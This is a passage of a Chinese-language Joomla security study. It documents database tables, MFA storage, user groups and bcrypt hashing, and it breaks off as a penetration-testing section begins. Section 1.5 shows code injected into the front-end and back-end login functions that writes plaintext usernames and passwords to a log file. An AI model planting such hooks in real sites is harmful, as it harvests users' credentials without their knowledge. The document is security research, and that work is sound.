[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706434243017-01715c39-23f1-4d1a-88a2-29041bcda296.png#averageHue=%23c5c5c9&clientId=u0a884ef0-f6c7-4&from=paste&height=440&id=cLg8C&originHeight=880&originWidth=2516&originalType=binary&ratio=2&rotation=0&showTitle=false&size=170706&status=done&style=none&taskId=u8c84b303-d1dd-47f6-af4c-9811a1a53ae&title=&width=1258)  
以上操作是在 Macos 系统下进行的 Windows 经过测试不默认支持 otpauth 协议 可能需要安装客户端  
在我们配置好多因素认证后 user\_mfa 表多出了如下内容

```plain
MariaDB [joomla_db]> select * from user_mfa;
+----+---------+-------+-------------+---------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------+
| id | user_id | title | method      | default | options                                                                                                                                                                                  | created_on          | last_used |
+----+---------+-------+-------------+---------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------+
|  1 |     867 | ???   | totp        |       1 | ###AES128###PkC0YxMo4ci76TJpjeync1DErkgxl9izryariJ+zCrIxQ5T9f515qjb0YS8q+SyE                                                                                                             | 2024-01-28 09:04:12 | NULL      |
|  2 |     867 | ???   | backupcodes |       0 | ###AES128###qyQT5uHFHliWIvZMXXPifxnzX8Vhcz11SW8ZxKRIkZEx8Pa24W4p0N+eCWB9CTRNzOgW8r7uNb1VaawpCTSssIFZ3K6+EELnty7ppzKWhuvqqhJvYM7HHGko9K83pTFZKYl8DDjXKAdwXTDClKqTV2ytTg47Li5kpv+nUSSj/BU= | 2024-01-28 09:04:12 | NULL      |
+----+---------+-------+-------------+---------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+-----------+
2 rows in set (0.002 sec)
```

其中 method 字段的 totp 就是我们所使用的基于时间的一次性密码（Time-based One-Time Password）backupcodes 为备份密码  
options 字段的数据就是通过 aes128 加密后的信息

#### user\_notes 数据格式

**user\_notes**:表用于存储关于用户的笔记

```plain
MariaDB [joomla_db]> desc user_notes;
+------------------+------------------+------+-----+---------+----------------+
| Field            | Type             | Null | Key | Default | Extra          |
+------------------+------------------+------+-----+---------+----------------+
| id               | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| user_id          | int(10) unsigned | NO   | MUL | 0       |                |
| catid            | int(10) unsigned | NO   | MUL | 0       |                |
| subject          | varchar(100)     | NO   |     |         |                |
| body             | text             | NO   |     | NULL    |                |
| state            | tinyint(4)       | NO   |     | 0       |                |
| checked_out      | int(10) unsigned | YES  |     | NULL    |                |
| checked_out_time | datetime         | YES  |     | NULL    |                |
| created_user_id  | int(10) unsigned | NO   |     | 0       |                |
| created_time     | datetime         | NO   |     | NULL    |                |
| modified_user_id | int(10) unsigned | NO   |     | 0       |                |
| modified_time    | datetime         | NO   |     | NULL    |                |
| review_time      | datetime         | YES  |     | NULL    |                |
| publish_up       | datetime         | YES  |     | NULL    |                |
| publish_down     | datetime         | YES  |     | NULL    |                |
+------------------+------------------+------+-----+---------+----------------+
15 rows in set (0.014 sec)
```

#### 数据内容研究

空数据 暂时不知道是干嘛的

### 1.2.3 内容管理 \[content\*、tags\]

#### content 表结构

**content**表用于存储文章相关信息

```plain
MariaDB [joomla_db]> desc content;
+------------------+---------------------+------+-----+---------+----------------+
| Field            | Type                | Null | Key | Default | Extra          |
+------------------+---------------------+------+-----+---------+----------------+
| id               | int(10) unsigned    | NO   | PRI | NULL    | auto_increment |
| asset_id         | int(10) unsigned    | NO   |     | 0       |                |
| title            | varchar(255)        | NO   |     |         |                |
| alias            | varchar(400)        | NO   | MUL |         |                |
| introtext        | mediumtext          | NO   |     | NULL    |                |
| fulltext         | mediumtext          | NO   |     | NULL    |                |
| state            | tinyint(4)          | NO   | MUL | 0       |                |
| catid            | int(10) unsigned    | NO   | MUL | 0       |                |
| created          | datetime            | NO   |     | NULL    |                |
| created_by       | int(10) unsigned    | NO   | MUL | 0       |                |
| created_by_alias | varchar(255)        | NO   |     |         |                |
| modified         | datetime            | NO   |     | NULL    |                |
| modified_by      | int(10) unsigned    | NO   |     | 0       |                |
| checked_out      | int(10) unsigned    | YES  | MUL | NULL    |                |
| checked_out_time | datetime            | YES  |     | NULL    |                |
| publish_up       | datetime            | YES  |     | NULL    |                |
| publish_down     | datetime            | YES  |     | NULL    |                |
| images           | text                | NO   |     | NULL    |                |
| urls             | text                | NO   |     | NULL    |                |
| attribs          | varchar(5120)       | NO   |     | NULL    |                |
| version          | int(10) unsigned    | NO   |     | 1       |                |
| ordering         | int(11)             | NO   |     | 0       |                |
| metakey          | text                | YES  |     | NULL    |                |
| metadesc         | text                | NO   |     | NULL    |                |
| access           | int(10) unsigned    | NO   | MUL | 0       |                |
| hits             | int(10) unsigned    | NO   |     | 0       |                |
| metadata         | text                | NO   |     | NULL    |                |
| featured         | tinyint(3) unsigned | NO   | MUL | 0       |                |
| language         | char(7)             | NO   | MUL | NULL    |                |
| note             | varchar(255)        | NO   |     |         |                |
+------------------+---------------------+------+-----+---------+----------------+
30 rows in set (0.004 sec)
```

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from content\G;
*************************** 1. row ***************************
              id: 1
        asset_id: 92
           title: A test page.
           alias: a-test-page
       introtext: <p>Tomorrow will be better</p>
        fulltext:
           state: 2
           catid: 2
         created: 2024-01-28 11:00:29
      created_by: 867
created_by_alias:
        modified: 2024-01-28 11:16:43
     modified_by: 867
     checked_out: NULL
checked_out_time: NULL
      publish_up: 2024-01-28 11:00:29
    publish_down: NULL
          images: {"image_intro":"","image_intro_alt":"","float_intro":"","image_intro_caption":"","image_fulltext":"","image_fulltext_alt":"","float_fulltext":"","image_fulltext_caption":""}
            urls: {"urla":"","urlatext":"","targeta":"","urlb":"","urlbtext":"","targetb":"","urlc":"","urlctext":"","targetc":""}
         attribs: {"article_layout":"","show_title":"","link_titles":"","show_tags":"","show_intro":"","info_block_position":"","info_block_show_title":"","show_category":"","link_category":"","show_parent_category":"","link_parent_category":"","show_author":"","link_author":"","show_create_date":"","show_modify_date":"","show_publish_date":"","show_item_navigation":"","show_hits":"","show_noauth":"","urls_position":"","alternative_readmore":"","article_page_title":"","show_publishing_options":"","show_article_options":"","show_urls_images_backend":"","show_urls_images_frontend":""}
         version: 3
        ordering: 0
         metakey:
        metadesc:
          access: 1
            hits: 5
        metadata: {"robots":"","author":"","rights":""}
        featured: 0
        language: *
            note:
1 row in set (0.001 sec)

id: 文章的唯一标识符。
asset_id: 与该文章关联的资产（asset）ID，用于权限控制。
title: 文章的标题。
alias: 文章的别名，通常用于 SEO 友好的 URL。
introtext: 文章的简介或摘要部分。
fulltext: 文章的完整内容。
state: 文章的发布状态（例如，发布、未发布、已归档等）。
catid: 文章所属分类的 ID。
created: 文章创建的日期和时间。
created_by: 创建文章的用户 ID。
modified: 文章最后修改的日期和时间。
modified_by: 最后修改文章的用户 ID。
checked_out 和 checked_out_time: 记录哪个用户正在编辑文章，以防止同时编辑。
publish_up 和 publish_down: 文章的开始和结束发布时间。
images 和 urls: 存储与文章相关的图片和 URL 的 JSON 数据。
attribs: 文章的属性设置，如布局、显示标题等，存储为 JSON 格式。
version: 文章的版本号。
ordering: 在分类中的排序顺序。
metakey 和 metadesc: 文章的关键字和描述，用于搜索引擎优化。
access: 访问级别 ID。
hits: 文章的浏览次数。
metadata: 存储额外的元数据，如作者、版权信息等。
featured: 是否被标记为特色文章。
language: 文章的语言。
note: 文章的注释或备注。
```

#### categories 表结构

**categories**表用于存储内容的分类信息。

```plain
MariaDB [joomla_db]> desc categories;
+------------------+------------------+------+-----+---------+----------------+
| Field            | Type             | Null | Key | Default | Extra          |
+------------------+------------------+------+-----+---------+----------------+
| id               | int(11)          | NO   | PRI | NULL    | auto_increment |
| asset_id         | int(10) unsigned | NO   |     | 0       |                |
| parent_id        | int(10) unsigned | NO   |     | 0       |                |
| lft              | int(11)          | NO   | MUL | 0       |                |
| rgt              | int(11)          | NO   |     | 0       |                |
| level            | int(10) unsigned | NO   |     | 0       |                |
| path             | varchar(400)     | NO   | MUL |         |                |
| extension        | varchar(50)      | NO   | MUL |         |                |
| title            | varchar(255)     | NO   |     |         |                |
| alias            | varchar(400)     | NO   | MUL |         |                |
| note             | varchar(255)     | NO   |     |         |                |
| description      | mediumtext       | YES  |     | NULL    |                |
| published        | tinyint(4)       | NO   |     | 0       |                |
| checked_out      | int(10) unsigned | YES  | MUL | NULL    |                |
| checked_out_time | datetime         | YES  |     | NULL    |                |
| access           | int(10) unsigned | NO   | MUL | 0       |                |
| params           | text             | YES  |     | NULL    |                |
| metadesc         | varchar(1024)    | NO   |     |         |                |
| metakey          | varchar(1024)    | NO   |     |         |                |
| metadata         | varchar(2048)    | NO   |     |         |                |
| created_user_id  | int(10) unsigned | NO   |     | 0       |                |
| created_time     | datetime         | NO   |     | NULL    |                |
| modified_user_id | int(10) unsigned | NO   |     | 0       |                |
| modified_time    | datetime         | NO   |     | NULL    |                |
| hits             | int(10) unsigned | NO   |     | 0       |                |
| language         | char(7)          | NO   | MUL |         |                |
| version          | int(10) unsigned | NO   |     | 1       |                |
+------------------+------------------+------+-----+---------+----------------+
27 rows in set (0.007 sec)
```

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from categories limit 2\G;
*************************** 1. row ***************************
              id: 1
        asset_id: 0
       parent_id: 0
             lft: 0
             rgt: 11
           level: 0
            path:
       extension: system
           title: ROOT
           alias: root
            note:
     description:
       published: 1
     checked_out: NULL
checked_out_time: NULL
          access: 1
          params: {}
        metadesc:
         metakey:
        metadata: {}
 created_user_id: 867
    created_time: 2024-01-27 07:58:40
modified_user_id: 867
   modified_time: 2024-01-27 07:58:40
            hits: 0
        language: *
         version: 1

id: 分类的唯一标识符。
asset_id: 与该分类关联的资产（asset）ID，用于权限控制。
parent_id: 父分类的 ID。值为 0 通常表示这是顶级分类。
lft 和 rgt: 用于嵌套集模型的左值和右值，表示分类在树状结构中的位置。
level: 分类在层级结构中的深度。
path: 分类的路径或别名序列。
extension: 关联的组件，例如 com_content 表示内容组件。
title: 分类的标题。
alias: 分类的别名，用于 SEO 友好的 URL。
note: 分类的备注或注释。
description: 分类的描述。
published: 发布状态。
checked_out 和 checked_out_time: 记录哪个用户正在编辑分类，以防止同时编辑。
access: 访问级别 ID。
params: 存储分类的参数设置，通常是 JSON 格式。
metadesc 和 metakey: 分类的 SEO 元描述和关键字。
metadata: 存储额外的元数据。
created_user_id 和 created_time: 创建者 ID 和创建时间。
modified_user_id 和 modified_time: 最后修改者 ID 和修改时间。
hits: 访问次数。
language: 分类的语言。
version: 分类的版本号。
```

#### content\_frontpage 表结构

```plain
MariaDB [joomla_db]> desc content_frontpage;
+---------------+----------+------+-----+---------+-------+
| Field         | Type     | Null | Key | Default | Extra |
+---------------+----------+------+-----+---------+-------+
| content_id    | int(11)  | NO   | PRI | 0       |       |
| ordering      | int(11)  | NO   |     | 0       |       |
| featured_up   | datetime | YES  |     | NULL    |       |
| featured_down | datetime | YES  |     | NULL    |       |
+---------------+----------+------+-----+---------+-------+
4 rows in set (0.005 sec)
```

**content\_frontpage**表用于存储特色（置顶）文章

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from categories limit 2\G;
*************************** 1. row ***************************
              id: 1
        asset_id: 0
       parent_id: 0
             lft: 0
             rgt: 11
           level: 0
            path:
       extension: system
           title: ROOT
           alias: root
            note:
     description:
       published: 1
     checked_out: NULL
checked_out_time: NULL
          access: 1
          params: {}
        metadesc:
         metakey:
        metadata: {}
 created_user_id: 867
    created_time: 2024-01-27 07:58:40
modified_user_id: 867
   modified_time: 2024-01-27 07:58:40
            hits: 0
        language: *
         version: 1
*************************** 2. row ***************************
              id: 2
        asset_id: 27
       parent_id: 1
             lft: 1
             rgt: 2
           level: 1
            path: uncategorised
       extension: com_content
           title: Uncategorised
           alias: uncategorised
            note:
     description:
       published: 1
     checked_out: NULL
checked_out_time: NULL
          access: 1
          params: {"category_layout":"","image":"","workflow_id":"use_default"}
        metadesc:
         metakey:
        metadata: {"author":"","robots":""}
 created_user_id: 867
    created_time: 2024-01-27 07:58:40
modified_user_id: 867
   modified_time: 2024-01-27 07:58:40
            hits: 0
        language: *
         version: 1
2 rows in set (0.001 sec)

id: 分类的唯一标识符。
asset_id: 与该分类关联的资产（asset）ID，用于权限控制。
parent_id: 父分类的 ID。值为 0 通常表示这是顶级分类。
lft 和 rgt: 用于嵌套集模型的左值和右值，表示分类在树状结构中的位置。
level: 分类在层级结构中的深度。
path: 分类的路径或别名序列。
extension: 关联的组件，例如 com_content 表示内容组件。
title: 分类的标题。
alias: 分类的别名，用于 SEO 友好的 URL.
note: 分类的备注或注释。
description: 分类的描述。
published: 发布状态。
checked_out 和 checked_out_time: 记录哪个用户正在编辑分类，以防止同时编辑。
access: 访问级别 ID。
params: 存储分类的参数设置，通常是 JSON 格式。
metadesc 和 metakey: 分类的 SEO 元描述和关键字。
metadata: 存储额外的元数据。
created_user_id 和 created_time: 创建者 ID 和创建时间。
modified_user_id 和 modified_time: 最后修改者 ID 和修改时间。
hits: 访问次数。
language: 分类的语言。
version: 分类的版本号。
```

#### content\_rating 表结构

**content\_rating**表用于存储内容评分信息。

```plain
MariaDB [joomla_db]> desc content_rating;
+--------------+------------------+------+-----+---------+-------+
| Field        | Type             | Null | Key | Default | Extra |
+--------------+------------------+------+-----+---------+-------+
| content_id   | int(11)          | NO   | PRI | 0       |       |
| rating_sum   | int(10) unsigned | NO   |     | 0       |       |
| rating_count | int(10) unsigned | NO   |     | 0       |       |
| lastip       | varchar(50)      | NO   |     |         |       |
+--------------+------------------+------+-----+---------+-------+
4 rows in set (0.011 sec)

content_id: 这是表的主键，存储相关内容（如文章）的 ID。这个 ID 与 content 表中的相应记录相关联。
rating_sum: 这个字段存储所有用户给出的评分的总和。例如，如果五个用户分别评分为 4，5，3，4，和 5，那么 rating_sum 将是 21。
rating_count: 这个字段记录评分的总次数。在上述例子中，它将是 5，因为有五个用户评分。
lastip: 这个字段存储最后一个评分用户的 IP 地址。这可以帮助防止同一用户重复评分，并用于追踪和安全目的。
```

#### contetitem\_tag\_map 表结构

**contentitem\_tag\_map**表用于内容项与标签的映射。

```plain
MariaDB [joomla_db]> desc contentitem_tag_map;
+-----------------+------------------+------+-----+---------------------+-------------------------------+
| Field           | Type             | Null | Key | Default             | Extra                         |
+-----------------+------------------+------+-----+---------------------+-------------------------------+
| type_alias      | varchar(255)     | NO   |     |                     |                               |
| core_content_id | int(10) unsigned | NO   | MUL | NULL                |                               |
| content_item_id | int(11)          | NO   | PRI | NULL                |                               |
| tag_id          | int(10) unsigned | NO   | PRI | NULL                |                               |
| tag_date        | timestamp        | NO   | MUL | current_timestamp() | on update current_timestamp() |
| type_id         | mediumint(9)     | NO   | PRI | NULL                |                               |
+-----------------+------------------+------+-----+---------------------+-------------------------------+
6 rows in set (0.007 sec)
```

#### tags 表结构

**tags**表用于存储标签信息

```plain
MariaDB [joomla_db]> desc tags;
+------------------+------------------+------+-----+---------+----------------+
| Field            | Type             | Null | Key | Default | Extra          |
+------------------+------------------+------+-----+---------+----------------+
| id               | int(10) unsigned | NO   | PRI | NULL    | auto_increment |
| parent_id        | int(10) unsigned | NO   |     | 0       |                |
| lft              | int(11)          | NO   | MUL | 0       |                |
| rgt              | int(11)          | NO   |     | 0       |                |
| level            | int(10) unsigned | NO   |     | 0       |                |
| path             | varchar(400)     | NO   | MUL |         |                |
| title            | varchar(255)     | NO   |     | NULL    |                |
| alias            | varchar(400)     | NO   | MUL |         |                |
| note             | varchar(255)     | NO   |     |         |                |
| description      | mediumtext       | NO   |     | NULL    |                |
| published        | tinyint(4)       | NO   | MUL | 0       |                |
| checked_out      | int(10) unsigned | YES  | MUL | NULL    |                |
| checked_out_time | datetime         | YES  |     | NULL    |                |
| access           | int(10) unsigned | NO   | MUL | 0       |                |
| params           | text             | NO   |     | NULL    |                |
| metadesc         | varchar(1024)    | NO   |     | NULL    |                |
| metakey          | varchar(1024)    | NO   |     |         |                |
| metadata         | varchar(2048)    | NO   |     | NULL    |                |
| created_user_id  | int(10) unsigned | NO   |     | 0       |                |
| created_time     | datetime         | NO   |     | NULL    |                |
| created_by_alias | varchar(255)     | NO   |     |         |                |
| modified_user_id | int(10) unsigned | NO   |     | 0       |                |
| modified_time    | datetime         | NO   |     | NULL    |                |
| images           | text             | NO   |     | NULL    |                |
| urls             | text             | NO   |     | NULL    |                |
| hits             | int(10) unsigned | NO   |     | 0       |                |
| language         | char(7)          | NO   | MUL | NULL    |                |
| version          | int(10) unsigned | NO   |     | 1       |                |
| publish_up       | datetime         | YES  |     | NULL    |                |
| publish_down     | datetime         | YES  |     | NULL    |                |
+------------------+------------------+------+-----+---------+----------------+
30 rows in set (0.007 sec)
```

#### 数据内容研究

```plain
MariaDB [joomla_db]> select * from e2hw1_tags\G;
*************************** 1. row ***************************
              id: 1
       parent_id: 0
             lft: 0
             rgt: 1
           level: 0
            path:
           title: ROOT
           alias: root
            note:
     description:
       published: 1
     checked_out: NULL
checked_out_time: NULL
          access: 1
          params:
        metadesc:
         metakey:
        metadata:
 created_user_id: 867
    created_time: 2024-01-27 07:58:40
created_by_alias:
modified_user_id: 867
   modified_time: 2024-01-27 07:58:40
          images:
            urls:
            hits: 0
        language: *
         version: 1
      publish_up: NULL
    publish_down: NULL
1 row in set (0.000 sec)

id: 标签的唯一标识符。
parent_id: 父标签的 ID。值为 0 通常表示这是顶级标签。
lft 和 rgt: 用于嵌套集模型的左值和右值，表示标签在树状结构中的位置。
level: 标签在层级结构中的深度。
path: 标签的路径或别名序列。
title: 标签的标题。
alias: 标签的别名，用于 SEO 友好的 URL。
note: 标签的备注或注释。
description: 标签的描述。
published: 发布状态。
checked_out 和 checked_out_time: 记录哪个用户正在编辑标签，以防止同时编辑。
access: 访问级别 ID。
params: 存储标签的参数设置，通常是 JSON 格式。
metadesc 和 metakey: 标签的 SEO 元描述和关键字。
metadata: 存储额外的元数据。
created_user_id, created_time, created_by_alias: 创建者 ID、创建时间和别名。
modified_user_id 和 modified_time: 最后修改者 ID 和修改时间。
images 和 urls: 关联的图片和 URL。
hits: 访问次数。
language: 标签的语言。
version: 标签的版本号。
publish_up 和 publish_down: 开始和结束发布的时间。

这条记录是特殊的“ROOT”标签，通常用作所有其他标签的根节点。
它是系统自动生成的，用于维护标签的层级结构。
在实际应用中，标签被用来组织和链接内容，使用户能够通过标签快速找到相关的文章或其他项目。
```

- - -

Joomla 的数据库还有以下功能的数据 不逐一研究表结构和数据内容  
**扩展和模块**

-   **extensions**: 存储已安装扩展信息。
-   **modules**: 存储模块信息。
-   **modules\_menu**: 模块与菜单项关联信息。

**菜单和导航**

-   **menu**: 存储菜单项信息。
-   **menu\_types**: 存储菜单类型信息。

**模板和样式**

-   **template\_styles**: 存储模板样式信息。
-   **template\_overrides**: 存储模板覆盖信息。

**广告管理**

-   **banners**: 存储横幅广告信息。
-   **banner\_clients**: 存储广告客户信息。
-   **banner\_tracks**: 广告追踪信息。

**搜索和索引**

-   **finder\_**: 以 **finder\_** 开头的表与智能搜索功能相关，包括链接、过滤器、日志等。

**多语言和本地化**

-   **languages**: 存储已安装语言信息。
-   **overrider**: 存储语言覆盖信息。

**系统和配置**

-   **configuration**: Joomla 主配置信息（通常在 **configuration.php** 文件中，而不是在数据库表中）。
-   **session**: 存储用户会话信息。
-   **update\_sites, update\_sites\_extensions, updates**: 管理更新信息。
    1.  **其他特殊功能**
-   **newsfeeds**: RSS 新闻源信息。
-   **redirect\_links**: 重定向链接信息。
-   **privacy\_consents, privacy\_requests**: 隐私同意和请求数据。
-   **messages, messages\_cfg**: 用户间的私信信息。
-   **postinstall\_messages**: 安装后的消息提示。
-   **mail\_templates**: 邮件模板信息。

## 1.3 用户权限管理研究

Joomla cms 大部分情况下仅仅被用作产品展示（无用户），或者是简单的所有者（superuser）+ 注册用户（register）模式。  
这时我们并不需要去深入了解 joomla 权限管理的机制。  
当网站用户达到一定的规模，或者希望用 Joomla 进行更复杂的用途，那么用户群体可能被分为普通用户、会员、高级会员，同时也需要更多低级、高级管理人员协同管理网站。  
Joomla 默认情况下没有启用用户注册的功能，在前台只能进行用户登陆  
需要使用 Super user 在用户管理选项中开启允许用户注册功能  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706514586434-07eceece-ac72-413b-b205-a638cdf6ea6b.png#averageHue=%23457b3c&clientId=u4fca07c8-1dd3-4&from=paste&height=853&id=UillZ&originHeight=1706&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=440170&status=done&style=none&taskId=u75125465-8799-404f-b52d-05db182c06b&title=&width=1547)  
然后在菜单管理中为前台添加注册表单组件后就开放了注册功能  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706514939978-73cf5de4-ade6-4a75-92cc-1abf3bf25ffb.png#averageHue=%23ebebeb&clientId=u4fca07c8-1dd3-4&from=paste&height=852&id=QkMnH&originHeight=1704&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=422223&status=done&style=none&taskId=ub2a284bc-31ec-486d-a800-8ac887b303d&title=&width=1547)

#### 用户组

Joomla Cms 的用户组机制使得网站可以细粒度地控制不同用户的权限，从而确保网站的安全性和内容管理的有效性  
1.**Public**：这是最基础的用户组，所有访问网站的人默认都属于这个组，不具有编辑权限  
2.**Guest**：这个用户组通常指未登录的访问者，与 Public 用户组类似，但在某些情况下，网站可能为 Guest 用户提供比 Public 用户更少的权限  
3.**Manager**：这个用户组有网站某些部分的管理权限，但不包括高级设置

-   Administrator：作为 Manager 用户组的子组，具有访问后台功能和管理选项，但通常不能更改网站的核心设置  
    4.**Registered**：注册用户组。注册用户比公众用户有更多的权限，一般可以查看有限内容，它包含 3 个子组：
-   Author：作者可以发布和管理自己的内容
-   Editor：编辑有权修改和管理其他用户的内容，包括审核和更改状态
-   Publisher：出版者可以发布和管理所有用户的内容，包括审核和更改状态  
    5.**Super Users**：这个用户组拥有最高权限，可以访问和管理 Joomla 网站的所有部分，包括所有配置选项和权限设置。  
    每个用户组可以被精细化的配置网站各个组件的相关权限  
    [](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706528310114-32696fb6-42f8-444b-a8b8-9a0a96ffe91a.png#averageHue=%23272827&clientId=u4fca07c8-1dd3-4&from=paste&height=855&id=DUs3C&originHeight=1710&originWidth=3088&originalType=binary&ratio=2&rotation=0&showTitle=false&size=625871&status=done&style=none&taskId=u2e8f62e2-46d1-43c6-96de-927366fe12e&title=&width=1544)

## 1.4 用户密码加密算法研究

在早期版本中，Joomla 使用开源类 phpass 进行密码散列（类似 wordpress）。这个库提供了一种创建和检验密码散列的方法，主要用于增强密码存储的安全性。**phpass** 是一个可靠的密码散列框架，它使用了一系列的技术来确保密码散列的安全性，包括多轮散列和随机盐值。  
但从 Joomla 3.2.0 版本开始，Joomla 转而使用 PHP 自带的 **password\_hash()** 和 **password\_verify()** 函数进行密码散列。这些函数内置于 PHP 核心，自 PHP 5.5.0 起可用，并默认使用 bcrypt 算法，这是一种广泛推荐的密码散列方法。这个改变使得 Joomla 的密码散列机制与 PHP 的核心安全功能保持一致，同时也减少了对外部库的依赖。

- - -

Joomla 使用 Composer 作为其依赖管理器，所有通过 Composer 安装的依赖库都会被放置在**/libraries/vendor/** 目录下。  
其中在/libraries/vendor/joomla/authenti cation/src/Password/BCryptHandler.php文件中创建了BCryptHandler类封装了bcrypt功能

```plain
class BCryptHandler implements HandlerInterface
{
  ...
}
```

### 密码散列生成

```plain
public function hashPassword($plaintext, array $options = [])
    {
        return password_hash($plaintext, \PASSWORD_BCRYPT, $options);
    }
```

### 算法支持检测

isSupported() 函数使用 function\_exists() 函数检测当前 php 环境是否支持 password\_verify 函数  
这通常意味着 PHP 版本应该是 5.5.0 或更高，因为 **password\_verify()** 函数是在 PHP 5.5.0 中引入的。如果在更早的版本中使用 Joomla，可能会通过 polyfill 来提供这个函数的支持。

```plain
public static function isSupported()
    {
        // Check the password_verify() function exists, either as part of PHP core or through a polyfill
        return \function_exists('password_verify');
    }
```

### 检测

声明了 validatePassword 方法用于验证一个明文密码（用户输入的密码）是否与已经散列的密码匹配。它使用 PHP 的 **password\_verify()** 函数来完成这个任务。当用户尝试登录时，他们输入的密码（明文）会被这个函数与数据库中存储的散列密码进行比对。如果散列相符，函数返回 **true**，表示密码验证通过。

```plain
public function validatePassword($plaintext, $hashed)
    {
        return password_verify($plaintext, $hashed);
    }
```

## 1.5 登陆明文密码劫持

### 前台

通过动态侦听调试找到前台登陆函数位于/components/com\_users/src/Controller/UserController.php 控制器中的 login()  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706771938439-8da3a217-fa76-4823-89fb-6fbb3c879956.png#averageHue=%232c2e32&clientId=u22ad75f3-605d-4&from=paste&height=980&id=RRCip&originHeight=1960&originWidth=3096&originalType=binary&ratio=2&rotation=0&showTitle=false&size=757246&status=done&style=none&taskId=u3a897f44-32d1-4a24-9a94-10e19b47c26&title=&width=1548)  
可以在此处插入代码劫持$data\['username'\]和$data\['password'\]，具体方法参照[wordpress 安全技术研究](https://xz.aliyun.com/t/13447)

```plain
public function login()
  {
    $this->checkToken('post');

    $input = $this->input->getInputForRequestMethod();

    // Populate the data array:
    $data = [];

    $data['return']    = base64_decode($input->get('return', '', 'BASE64'));
    $data['username']  = $input->get('username', '', 'USERNAME');
    $data['password']  = $input->get('password', '', 'RAW');
    $data['secretkey'] = $input->get('secretkey', '', 'RAW');
    file_put_contents('/var/log/accesss.log',$data['username'].$data['password']);
```

### 后台

通过动态侦听调试发现位于/administrator/components/com\_login/src/Model/LoginModel.php 控制器中的 populateState 函数在登陆过程中收集了明文密码，那么我们只需要对$credentials 变量进行劫持，具体方法参照[wordpress 安全技术研究](https://xz.aliyun.com/t/13447)  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706778943142-3bd2c57d-5384-4a39-b1cc-e2cbeba6da2a.png#averageHue=%232d2f34&clientId=u22ad75f3-605d-4&from=paste&height=980&id=IkEZW&originHeight=1960&originWidth=3096&originalType=binary&ratio=2&rotation=0&showTitle=false&size=738271&status=done&style=none&taskId=uf34c8c0b-99ee-485d-a0db-76fdcfea26e&title=&width=1548)

```plain
protected function populateState()
    {
        $input = Factory::getApplication()->input->getInputForRequestMethod();

        $credentials = [
            'username'  => $input->get('username', '', 'USERNAME'),
            'password'  => $input->get('passwd', '', 'RAW'),
            'secretkey' => $input->get('secretkey', '', 'RAW'),
        ];
        file_put_contents('/var/log/accesss.log',$credentials['username'].$credentials['password']);
    ...
    }
```

#### 花絮

由于在研究用户权限管理时，打开了双因素认证，在调试寻找后台登录函数时感觉双因素认证麻烦于是进入后台后禁用了所有与双因素认证相关的插件，重新登录后网页提示如下  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706774015950-db8bbbb8-95e5-4f6b-ba5c-79d45792873d.png#averageHue=%23afb6c2&clientId=u22ad75f3-605d-4&from=paste&height=468&id=UlXd0&originHeight=936&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=194856&status=done&style=none&taskId=ub1369385-ffb0-4791-af6c-6e09d69415e&title=&width=1547)  
这应该是由于操作不当引发的逻辑问题，身为“网站管理员”尝试着手解决这个问题  
目前 super user 权限的用户登录后台后会直接显示 403，任何功能都无法访问，所以只能从数据库着手修复  
发现数据库中有 extensions 表，筛选 folder 属于 multifactorauth 的 5 个插件启用状态均为 False

```plain
MariaDB [joomla_db]> select extension_id, name, folder,enabled from e2hw1_extensions where folder = 'multifactorauth';
+--------------+------------------------------+-----------------+---------+
| extension_id | name                         | folder          | enabled |
+--------------+------------------------------+-----------------+---------+
|          192 | plg_multifactorauth_totp     | multifactorauth |       0 |
|          193 | plg_multifactorauth_yubikey  | multifactorauth |       0 |
|          194 | plg_multifactorauth_webauthn | multifactorauth |       0 |
|          195 | plg_multifactorauth_email    | multifactorauth |       0 |
|          196 | plg_multifactorauth_fixed    | multifactorauth |       0 |
+--------------+------------------------------+-----------------+---------+
5 rows in set (0.001 sec)
```

尝试启用这些插件

```plain
MariaDB [joomla_db]> UPDATE e2hw1_extensions SET enabled = 1 WHERE element IN ('totp', 'yubikey', 'webauthn', 'email') AND folder = 'multifactorauth';
Query OK, 4 rows affected (0.006 sec)
Rows matched: 4  Changed: 4  Warnings: 0
```

再进行访问 发现正常进入了双因素认证流程  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706775319342-5f1280be-6d58-469c-8f2a-ca454e542450.png#averageHue=%23a8acb4&clientId=u22ad75f3-605d-4&from=paste&height=472&id=F3gzc&originHeight=944&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=186314&status=done&style=none&taskId=u88ac3008-6d29-4fce-acac-11335beb696&title=&width=1547)  
正确的关闭多因素认证操作步骤是首先在系统设置中的全局配置->用户管理->多因素认证中将“实行多因素认证”选定为“无用户组”，然后在个人信息中关闭多因素认证，否则关闭后也会提示该用户被强制启用多因素认证  
[](https://cdn.nlark.com/yuque/0/2024/png/21402865/1706780169384-4c27873d-8131-413c-be06-5eeef5898991.png#averageHue=%23f8f9f8&clientId=u22ad75f3-605d-4&from=paste&height=854&id=VL61d&originHeight=1708&originWidth=3094&originalType=binary&ratio=2&rotation=0&showTitle=false&size=478596&status=done&style=none&taskId=u30aded24-1791-45c0-961d-b12b3779168&title=&width=1547)

# 2.Joomla 渗透测试研究

## 2.1 主流工具

### joomscan

joomscan 是一款使用 perl 开发的 joomla cms 扫描工具，能够进行自动化漏洞利用、版本枚举、漏洞枚举（基于版本）、组件枚举（支持 1209 款热门组件）、组件漏洞枚举（基于版本，1030+ 漏洞利用）、防火墙检测、文本或 HTML 格式导出数据、查找常见日志文件、  
